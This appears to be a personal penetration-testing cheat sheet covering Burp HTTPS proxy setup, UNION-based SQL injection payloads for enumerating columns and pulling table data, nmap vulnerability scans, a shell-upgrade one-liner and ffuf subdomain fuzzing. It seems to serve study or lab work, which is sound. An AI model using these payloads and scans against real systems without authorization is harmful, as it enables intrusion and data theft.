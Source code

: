 # The Notes

Proxying HTTPs:

Navigate to http://burp/cert
In firefox type: about:preferences
Search for certificates
Then click View Certificates
Import cacert.der (Given from http://burp/cert). Make sure to select “Trust this CA to identify websites”

SQL Injecctions:

UNION ALL SELECT …
Use this to pull column names from an entire table (Change to fit current usecase):
/about/0 UNION ALL SELECT column_name,null,null,null,null FROM information_schema.columns WHERE table_name="people"

Another example to pull data:
0 UNION ALL SELECT notes,null,null,null,null FROM people WHERE id = 1

Make sure to run login requests through Sequencer to gauge the level of randomness

Nmap commands:

* A bunch of good nmap commands, bottom one will take forever, but pull alot

sudo nmap -sL ipaddr
sudo nmap -sL 10.10.12.13/29
sudo nmap -p- -sC -sV --script vuln
sudo nmap -A -sC -sV -p- 255.255.255.255

Useful commands:
* Makes a better shell

python3 -c 'import pty; pty.spawn("/bin/bash")'

* Checks the beginning domain

ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -u http://websitename.here/ -H "Host:FUZZ.websitename.here" fs -number
